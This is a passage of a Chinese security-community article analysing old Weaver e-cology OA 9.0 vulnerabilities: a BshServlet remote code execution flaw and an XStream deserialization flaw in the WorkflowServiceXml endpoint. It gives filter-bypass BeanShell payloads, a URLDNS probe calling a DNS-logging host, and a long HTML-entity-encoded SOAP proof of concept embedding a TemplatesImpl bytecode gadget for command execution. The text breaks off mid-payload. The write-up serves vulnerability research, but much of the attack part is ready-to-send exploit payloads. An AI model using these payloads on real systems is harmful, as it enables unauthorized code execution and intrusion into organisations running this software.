



# 泛微 oa 9.0 老洞分析以及 resin 内存马利用 - 先知社区

泛微 oa 9.0 老洞分析以及 resin 内存马利用

- - -

## BshServlet 远程代码执行漏洞 (CNVD-2019-32204)

泛微 e-cology OA 系统的 Java Beanshell 接口可被未授权访问，攻击者调用该 Beanshell 接口，可构造特定的 HTTP 请求绕过泛微本身一些安全限制从而达成远程命令执行

直接在网站根目录后加入组件访问路径 `/weaver/bsh.servlet.BshServlet/`  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161159-bcbe024c-c1a2-1.png)

绕过技巧：

```plain
bsh.script=eval%00("ex"%2b"ec(\"whoami\")");
bsh.script=ex\u0065c("whoami")
```

### 漏洞分析

源码下载地址：[https://pan.baidu.com/s/1uk-B1lBQ7HszOAcJLXTnmQ](https://pan.baidu.com/s/1uk-B1lBQ7HszOAcJLXTnmQ)，解压码：am2d

泛微 OA 默认安装使用 Resin，且其默认配置启用了 invoker servlet，从`Resin\conf\resin.xml`的配置文件中可以看到 resin 关于 servlet 的处理  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161334-f57fccaa-c1a2-1.png)

访问`/weaver/className`，就会根据类名调用`CLASSPATH`下的 servlet  
我们可以看到在 WEB-INF/lib 目录下存在一个 bsh-2\[1\].0b4.jar 包  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161246-d8e1b91e-c1a2-1.png)

我们导入包并看到类`bsh.servlet.BshServlet`，可以看到 doGet 方法从 getParameter 中接收到一些参数，然后整个 Request 请求会交给 evalScript 方法来进行处理  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161306-e5077b84-c1a2-1.png)

跟进 evalScript 方法，调用了 bsh.Interpreter 类的 eval 方法，执行了我们之前传入的字符串  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161316-eaa1cdba-c1a2-1.png)

跟进 bsh.Interpreter 类的 eval 方法，发现该类最终调用了 bsh.commands/exec.bsh 脚本  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161353-0102433c-c1a3-1.png)

该目录下的脚本都可以执行

参考：  
[泛微 e-cology OA 远程代码执行分析](http://www.liuhaihua.cn/archives/614038.html)

## Xstream 反序列化漏洞

泛微 E-cology OA 系统的 WorkflowServiceXml 接口可被未授权访问，攻击者调用该接口，可构造特定的 HTTP 请求绕过泛微本身一些安全限制从而达成远程代码执行

漏洞的 URL 为：`/services%20/WorkflowServiceXml`

### 漏洞利用

使用 URLDNS 进行探测：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
        <web:string>&lt;&#109;&#97;&#112;&gt;&#13;&#10;&#32;&#32;&lt;&#101;&#110;&#116;&#114;&#121;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#117;&#114;&#108;&gt;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#117;&#111;&#55;&#49;&#49;&#106;&#46;&#100;&#110;&#115;&#108;&#111;&#103;&#46;&#99;&#110;&lt;&#47;&#117;&#114;&#108;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#115;&#116;&#114;&#105;&#110;&#103;&gt;&#104;&#116;&#116;&#112;&#58;&#47;&#47;&#117;&#111;&#55;&#49;&#49;&#106;&#46;&#100;&#110;&#115;&#108;&#111;&#103;&#46;&#99;&#110;&lt;&#47;&#115;&#116;&#114;&#105;&#110;&#103;&gt;&#13;&#10;&#32;&#32;&lt;&#47;&#101;&#110;&#116;&#114;&#121;&gt;&#13;&#10;&lt;&#47;&#109;&#97;&#112;&gt;</web:string>
        <web:string>2</web:string>
      </web:doCreateWorkflowRequest>
   </soapenv:Body>
</soapenv:Envelope>
```

由于我们传入的内容会被当作一个参数传入，特殊字符会对原本的 xml 请求解析造成影响，因此需要进行 html 编码  
[](https://xzfile.aliyuncs.com/media/upload/picture/20240202161424-13add938-c1a3-1.png)

命令执行 poc：

```plain
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/" xmlns:web="webservices.services.weaver.com.cn">
   <soapenv:Header/>
   <soapenv:Body>
      <web:doCreateWorkflowRequest>
        <web:string>&lt;&#106;&#97;&#118;&#97;&#46;&#117;&#116;&#105;&#108;&#46;&#80;&#114;&#105;&#111;&#114;&#105;&#116;&#121;&#81;&#117;&#101;&#117;&#101;&#32;&#115;&#101;&#114;&#105;&#97;&#108;&#105;&#122;&#97;&#116;&#105;&#111;&#110;&#61;&quot;&#99;&#117;&#115;&#116;&#111;&#109;&quot;&gt;&#13;&#10;&#32;&#32;&lt;&#117;&#110;&#115;&#101;&#114;&#105;&#97;&#108;&#105;&#122;&#97;&#98;&#108;&#101;&#45;&#112;&#97;&#114;&#101;&#110;&#116;&#115;&#47;&gt;&#13;&#10;&#32;&#32;&lt;&#106;&#97;&#118;&#97;&#46;&#117;&#116;&#105;&#108;&#46;&#80;&#114;&#105;&#111;&#114;&#105;&#116;&#121;&#81;&#117;&#101;&#117;&#101;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#100;&#101;&#102;&#97;&#117;&#108;&#116;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#115;&#105;&#122;&#101;&gt;&#50;&lt;&#47;&#115;&#105;&#122;&#101;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#99;&#111;&#109;&#112;&#97;&#114;&#97;&#116;&#111;&#114;&#32;&#99;&#108;&#97;&#115;&#115;&#61;&quot;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#99;&#111;&#109;&#109;&#111;&#110;&#115;&#46;&#98;&#101;&#97;&#110;&#117;&#116;&#105;&#108;&#115;&#46;&#66;&#101;&#97;&#110;&#67;&#111;&#109;&#112;&#97;&#114;&#97;&#116;&#111;&#114;&quot;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#112;&#114;&#111;&#112;&#101;&#114;&#116;&#121;&gt;&#111;&#117;&#116;&#112;&#117;&#116;&#80;&#114;&#111;&#112;&#101;&#114;&#116;&#105;&#101;&#115;&lt;&#47;&#112;&#114;&#111;&#112;&#101;&#114;&#116;&#121;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#99;&#111;&#109;&#112;&#97;&#114;&#97;&#116;&#111;&#114;&#32;&#99;&#108;&#97;&#115;&#115;&#61;&quot;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#99;&#111;&#109;&#109;&#111;&#110;&#115;&#46;&#99;&#111;&#108;&#108;&#101;&#99;&#116;&#105;&#111;&#110;&#115;&#46;&#99;&#111;&#109;&#112;&#97;&#114;&#97;&#116;&#111;&#114;&#115;&#46;&#67;&#111;&#109;&#112;&#97;&#114;&#97;&#98;&#108;&#101;&#67;&#111;&#109;&#112;&#97;&#114;&#97;&#116;&#111;&#114;&quot;&#47;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#47;&#99;&#111;&#109;&#112;&#97;&#114;&#97;&#116;&#111;&#114;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#47;&#100;&#101;&#102;&#97;&#117;&#108;&#116;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#105;&#110;&#116;&gt;&#51;&lt;&#47;&#105;&#110;&#116;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&lt;&#99;&#111;&#109;&#46;&#115;&#117;&#110;&#46;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#120;&#97;&#108;&#97;&#110;&#46;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#46;&#120;&#115;&#108;&#116;&#99;&#46;&#116;&#114;&#97;&#120;&#46;&#84;&#101;&#109;&#112;&#108;&#97;&#116;&#101;&#115;&#73;&#109;&#112;&#108;&#32;&#115;&#101;&#114;&#105;&#97;&#108;&#105;&#122;&#97;&#116;&#105;&#111;&#110;&#61;&quot;&#99;&#117;&#115;&#116;&#111;&#109;&quot;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#99;&#111;&#109;&#46;&#115;&#117;&#110;&#46;&#111;&#114;&#103;&#46;&#97;&#112;&#97;&#99;&#104;&#101;&#46;&#120;&#97;&#108;&#97;&#110;&#46;&#105;&#110;&#116;&#101;&#114;&#110;&#97;&#108;&#46;&#120;&#115;&#108;&#116;&#99;&#46;&#116;&#114;&#97;&#120;&#46;&#84;&#101;&#109;&#112;&#108;&#97;&#116;&#101;&#115;&#73;&#109;&#112;&#108;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#100;&#101;&#102;&#97;&#117;&#108;&#116;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#95;&#95;&#110;&#97;&#109;&#101;&gt;&#80;&#119;&#110;&#114;&lt;&#47;&#95;&#95;&#110;&#97;&#109;&#101;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#95;&#95;&#98;&#121;&#116;&#101;&#99;&#111;&#100;&#101;&#115;&gt;&#13;&#10;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&#32;&lt;&#98;&#121;&#116;&#101;&#45;&#97;&#114;&#114;&#97;&#121;&gt;&#121;&#118;&#54;&#54;&#118;&#103;&#65;&#65;&#65;&#68;&#81;&#65;&#106;&#119;&#111;&#65;&#67;&#103;&#65;&#47;&#67;&#81;&#65;&#105;&#65;&#69;&#65;&#75;&#65;&#69;&#69;&#65;&#81;&#103;&#111;&#65;&#81;&#81;&#66;&#68;&#67;&#65;&#66;&#69;&#67;&#103;&#66;&#70;&#65;&#69;&#89;&#73;&#65;&#68;&#85;&#72;&#65;&#69;&#99;&#75;&#65;&#65;&#103;&#65;&#83;&#65;&#99;&#65;&#83;&#81;&#111;&#65;&#83;&#103;&#66;&#76;&#66;&#119;&#66;&#77;&#67;&#65;&#65;&#117;&#67;&#103;&#65;&#77;&#65;&#69;&#48;&#75;&#65;&#65;&#119;&#65;&#84;&#103;&#99;&#65;&#84;&#119;&#115;&#65;&#69;&#65;&#66;&#81;&#66;&#119;&#66;&#82;&#67;&#103;&#66;&#83;&#65;&#70;&#77;&#72;&#65;&#70;&#81;&#75;&#65;&#66;&#81;&#65;&#80;&#119;&#103;&#65;&#86;&#81;&#111;&#65;&#70;&#65;&#66;&#87;&#67;&#103;&#65;&#85;&#65;&#70;&#99;&#75;&#65;&#70;&#73;&#65;&#87;&#65;&#111;&#65;&#87;&#81;&#66;&#97;&#67;&#103;&#65;&#83;&#65;&#70;&#115;&#73;&#65;&#70;&#119;&#75;&#65;&#66;&#73;&#65;&#88;&#81;&#111;&#65;&#69;&#103;&#66;&#101;&#67;&#103;&#66;&#102;&#65;&#71;&#65;&#72;&#65;&#71;&#69;&#75;&#65;&#67;&#65;&#65;&#89;&#103;&#99;&#65;&#89;&#119;&#99;&#65;&#90;&#65;&#69;&#65;&#66;&#71;&#112;&#104;&#97;&#51;&#107;&#66;&#65;&#66;&#74;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#78;&#48;&#99;&#109;&#108;&#117;&#90;&#122;&#115;&#66;&#65;&#65;&#89;&#56;&#97;&#87;&#53;&#112;&#100;&#68;&#52;&#66;&#65;&#65;&#77;&#111;&#75;&#86;&#89;&#66;&#65;&#65;&#82;&#68;&#98;&#50;&#82;&#108;&#65;&#81;&#65;&#80;&#84;&#71;&#108;&#117;&#90;&#85;&#53;&#49;&#98;&#87;&#74;&#108;&#99;&#108;&#82;&#104;&#89;&#109;&#120;&#108;&#65;&#81;&#65;&#83;&#84;&#71;&#57;&#106;&#89;&#87;&#120;&#87;&#89;&#88;&#74;&#112;&#89;&#87;&#74;&#115;&#90;&#86;&#82;&#104;&#89;&#109;&#120;&#108;&#65;&#81;&#65;&#69;&#100;&#71;&#104;&#112;&#99;&#119;&#69;&#65;&#73;&#107;&#120;&#53;&#89;&#87;&#57;&#122;&#90;&#88;&#74;&#112;&#89;&#87;&#119;&#118;&#99;&#71;&#70;&#53;&#98;&#71;&#57;&#104;&#90;&#72;&#77;&#118;&#100;&#88;&#82;&#112;&#98;&#67;&#57;&#85;&#90;&#88;&#78;&#48;&#84;&#50;&#74;&#113;&#77;&#84;&#115;&#66;&#65;&#65;&#103;&#56;&#89;&#50;&#120;&#112;&#98;&#109;&#108;&#48;&#80;&#103;&#69;&#65;&#65;&#50;&#78;&#116;&#90;&#65;&#69;&#65;&#65;&#51;&#74;&#108;&#99;&#65;&#69;&#65;&#75;&#69;&#120;&#113;&#89;&#88;&#90;&#104;&#101;&#67;&#57;&#122;&#90;&#88;&#74;&#50;&#98;&#71;&#86;&#48;&#76;&#50;&#104;&#48;&#100;&#72;&#65;&#118;&#83;&#72;&#82;&#48;&#99;&#70;&#78;&#108;&#99;&#110;&#90;&#115;&#90;&#88;&#82;&#83;&#90;&#88;&#78;&#119;&#98;&#50;&#53;&#122;&#90;&#84;&#115;&#66;&#65;&#65;&#78;&#118;&#100;&#88;&#81;&#66;&#65;&#66;&#86;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#112;&#98;&#121;&#57;&#81;&#99;&#109;&#108;&#117;&#100;&#70;&#100;&#121;&#97;&#88;&#82;&#108;&#99;&#106;&#115;&#66;&#65;&#65;&#74;&#122;&#97;&#81;&#69;&#65;&#69;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#81;&#50;&#120;&#104;&#99;&#51;&#77;&#55;&#65;&#81;&#65;&#82;&#90;&#50;&#86;&#48;&#81;&#50;&#57;&#117;&#100;&#71;&#86;&#52;&#100;&#70;&#74;&#108;&#99;&#88;&#86;&#108;&#99;&#51;&#81;&#66;&#65;&#66;&#112;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#51;&#74;&#108;&#90;&#109;&#120;&#108;&#89;&#51;&#81;&#118;&#84;&#87;&#86;&#48;&#97;&#71;&#57;&#107;&#79;&#119;&#69;&#65;&#65;&#51;&#74;&#108;&#99;&#81;&#69;&#65;&#76;&#48;&#120;&#106;&#98;&#50;&#48;&#118;&#89;&#50;&#70;&#49;&#89;&#50;&#104;&#118;&#76;&#51;&#78;&#108;&#99;&#110;&#90;&#108;&#99;&#105;&#57;&#111;&#100;&#72;&#82;&#119;&#76;&#48;&#104;&#48;&#100;&#72;&#66;&#84;&#90;&#88;&#74;&#50;&#98;&#71;&#86;&#48;&#85;&#109;&#86;&#120;&#100;&#87;&#86;&#122;&#100;&#69;&#108;&#116;&#99;&#71;&#119;&#55;&#65;&#81;&#65;&#66;&#90;&#81;&#69;&#65;&#70;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#82;&#88;&#104;&#106;&#90;&#88;&#66;&#48;&#97;&#87;&#57;&#117;&#79;&#119;&#69;&#65;&#68;&#86;&#78;&#48;&#89;&#87;&#78;&#114;&#84;&#87;&#70;&#119;&#86;&#71;&#70;&#105;&#98;&#71;&#85;&#72;&#65;&#71;&#69;&#66;&#65;&#65;&#112;&#84;&#98;&#51;&#86;&#121;&#89;&#50;&#86;&#71;&#97;&#87;&#120;&#108;&#65;&#81;&#65;&#78;&#86;&#71;&#86;&#122;&#100;&#69;&#57;&#105;&#97;&#106;&#69;&#117;&#97;&#109;&#70;&#50;&#89;&#81;&#119;&#65;&#74;&#103;&#65;&#110;&#68;&#65;&#65;&#107;&#65;&#67;&#85;&#72;&#65;&#71;&#85;&#77;&#65;&#71;&#89;&#65;&#90;&#119;&#119;&#65;&#97;&#65;&#66;&#112;&#65;&#81;&#65;&#115;&#89;&#50;&#57;&#116;&#76;&#109;&#78;&#104;&#100;&#87;&#78;&#111;&#98;&#121;&#53;&#122;&#90;&#88;&#74;&#50;&#90;&#88;&#73;&#117;&#90;&#71;&#108;&#122;&#99;&#71;&#70;&#48;&#89;&#50;&#103;&#117;&#85;&#50;&#86;&#121;&#100;&#109;&#120;&#108;&#100;&#69;&#108;&#117;&#100;&#109;&#57;&#106;&#89;&#88;&#82;&#112;&#98;&#50;&#52;&#72;&#65;&#71;&#111;&#77;&#65;&#71;&#115;&#65;&#98;&#65;&#69;&#65;&#68;&#50;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#68;&#98;&#71;&#70;&#122;&#99;&#119;&#119;&#65;&#98;&#81;&#66;&#117;&#65;&#81;&#65;&#81;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#48;&#57;&#105;&#97;&#109;&#86;&#106;&#100;&#65;&#99;&#65;&#98;&#119;&#119;&#65;&#99;&#65;&#66;&#120;&#65;&#81;&#65;&#116;&#89;&#50;&#57;&#116;&#76;&#50;&#78;&#104;&#100;&#87;&#78;&#111;&#98;&#121;&#57;&#122;&#90;&#88;&#74;&#50;&#90;&#88;&#73;&#118;&#97;&#72;&#82;&#48;&#99;&#67;&#57;&#73;&#100;&#72;&#82;&#119;&#85;&#50;&#86;&#121;&#100;&#109;&#120;&#108;&#100;&#70;&#74;&#108;&#99;&#88;&#86;&#108;&#99;&#51;&#82;&#74;&#98;&#88;&#66;&#115;&#68;&#65;&#66;&#121;&#65;&#72;&#77;&#77;&#65;&#72;&#81;&#65;&#100;&#81;&#69;&#65;&#74;&#109;&#112;&#104;&#100;&#109;&#70;&#52;&#76;&#51;&#78;&#108;&#99;&#110;&#90;&#115;&#90;&#88;&#81;&#118;&#97;&#72;&#82;&#48;&#99;&#67;&#57;&#73;&#100;&#72;&#82;&#119;&#85;&#50;&#86;&#121;&#100;&#109;&#120;&#108;&#100;&#70;&#74;&#108;&#99;&#51;&#66;&#118;&#98;&#110;&#78;&#108;&#68;&#65;&#66;&#50;&#65;&#72;&#99;&#66;&#65;&#66;&#70;&#113;&#89;&#88;&#90;&#104;&#76;&#51;&#86;&#48;&#97;&#87;&#119;&#118;&#85;&#50;&#78;&#104;&#98;&#109;&#53;&#108;&#99;&#103;&#99;&#65;&#101;&#65;&#119;&#65;&#101;&#81;&#66;&#54;&#65;&#81;&#65;&#88;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#78;&#48;&#99;&#109;&#108;&#117;&#90;&#48;&#74;&#49;&#97;&#87;&#120;&#107;&#90;&#88;&#73;&#66;&#65;&#65;&#100;&#106;&#98;&#87;&#81;&#103;&#76;&#50;&#77;&#103;&#68;&#65;&#66;&#55;&#65;&#72;&#119;&#77;&#65;&#72;&#48;&#65;&#102;&#103;&#119;&#65;&#102;&#119;&#67;&#65;&#66;&#119;&#67;&#66;&#68;&#65;&#67;&#67;&#65;&#73;&#77;&#77;&#65;&#67;&#89;&#65;&#104;&#65;&#69;&#65;&#65;&#108;&#120;&#66;&#68;&#65;&#67;&#70;&#65;&#73;&#89;&#77;&#65;&#73;&#99;&#65;&#102;&#103;&#99;&#65;&#105;&#65;&#119;&#65;&#105;&#81;&#67;&#75;&#65;&#81;&#65;&#84;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#48;&#86;&#52;&#89;&#50;&#86;&#119;&#100;&#71;&#108;&#118;&#98;&#103;&#119;&#65;&#105;&#119;&#65;&#110;&#65;&#81;&#65;&#103;&#101;&#87;&#70;&#118;&#99;&#50;&#86;&#121;&#97;&#87;&#70;&#115;&#76;&#51;&#66;&#104;&#101;&#87;&#120;&#118;&#89;&#87;&#82;&#122;&#76;&#51;&#86;&#48;&#97;&#87;&#119;&#118;&#86;&#71;&#86;&#122;&#100;&#69;&#57;&#105;&#97;&#106;&#69;&#66;&#65;&#66;&#82;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#108;&#118;&#76;&#49;&#78;&#108;&#99;&#109;&#108;&#104;&#98;&#71;&#108;&#54;&#89;&#87;&#74;&#115;&#90;&#81;&#69;&#65;&#69;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#85;&#97;&#72;&#74;&#108;&#89;&#87;&#81;&#66;&#65;&#65;&#49;&#106;&#100;&#88;&#74;&#121;&#90;&#87;&#53;&#48;&#86;&#71;&#104;&#121;&#90;&#87;&#70;&#107;&#65;&#81;&#65;&#85;&#75;&#67;&#108;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#82;&#111;&#99;&#109;&#86;&#104;&#90;&#68;&#115;&#66;&#65;&#66;&#86;&#110;&#90;&#88;&#82;&#68;&#98;&#50;&#53;&#48;&#90;&#88;&#104;&#48;&#81;&#50;&#120;&#104;&#99;&#51;&#78;&#77;&#98;&#50;&#70;&#107;&#90;&#88;&#73;&#66;&#65;&#66;&#107;&#111;&#75;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#81;&#50;&#120;&#104;&#99;&#51;&#78;&#77;&#98;&#50;&#70;&#107;&#90;&#88;&#73;&#55;&#65;&#81;&#65;&#86;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#48;&#78;&#115;&#89;&#88;&#78;&#122;&#84;&#71;&#57;&#104;&#90;&#71;&#86;&#121;&#65;&#81;&#65;&#74;&#98;&#71;&#57;&#104;&#90;&#69;&#78;&#115;&#89;&#88;&#78;&#122;&#65;&#81;&#65;&#108;&#75;&#69;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#85;&#51;&#82;&#121;&#97;&#87;&#53;&#110;&#79;&#121;&#108;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#48;&#78;&#115;&#89;&#88;&#78;&#122;&#79;&#119;&#69;&#65;&#67;&#87;&#100;&#108;&#100;&#69;&#49;&#108;&#100;&#71;&#104;&#118;&#90;&#65;&#69;&#65;&#81;&#67;&#104;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#49;&#78;&#48;&#99;&#109;&#108;&#117;&#90;&#122;&#116;&#98;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#68;&#98;&#71;&#70;&#122;&#99;&#122;&#115;&#112;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#121;&#90;&#87;&#90;&#115;&#90;&#87;&#78;&#48;&#76;&#48;&#49;&#108;&#100;&#71;&#104;&#118;&#90;&#68;&#115;&#66;&#65;&#66;&#104;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#99;&#109;&#86;&#109;&#98;&#71;&#86;&#106;&#100;&#67;&#57;&#78;&#90;&#88;&#82;&#111;&#98;&#50;&#81;&#66;&#65;&#65;&#90;&#112;&#98;&#110;&#90;&#118;&#97;&#50;&#85;&#66;&#65;&#68;&#107;&#111;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#80;&#89;&#109;&#112;&#108;&#89;&#51;&#81;&#55;&#87;&#48;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#84;&#50;&#74;&#113;&#90;&#87;&#78;&#48;&#79;&#121;&#108;&#77;&#97;&#109;&#70;&#50;&#89;&#83;&#57;&#115;&#89;&#87;&#53;&#110;&#76;&#48;&#57;&#105;&#97;&#109;&#86;&#106;&#100;&#68;&#115;&#66;&#65;&#65;&#108;&#110;&#90;&#88;&#82;&#73;&#90;&#87;&#70;&#107;&#90;&#88;&#73;&#66;&#65;&#67;&#89;&#111;&#84;&#71;&#112;&#104;&#100;&#109;&#69;&#118;&#98;&#71;&#70;&#117;&#90;&#121;&#57;&#84;&#100;&#72;&#74;&#112;&#98;&#109;&#99;&#55;&#75;&#85;&#120;&#113;&#89;&#88;&#90;&#104;&#76;&#50;&#120;&#104;&#98;&#109;&#99;&#118;&#85;&#51;&#82;&#121;&#97;&#87;&#53;&#110;&#79;&#119;&#69;&#65;&#69;&#109;&#100;&#108;&#100;&#70;&#78;&#108;&#99;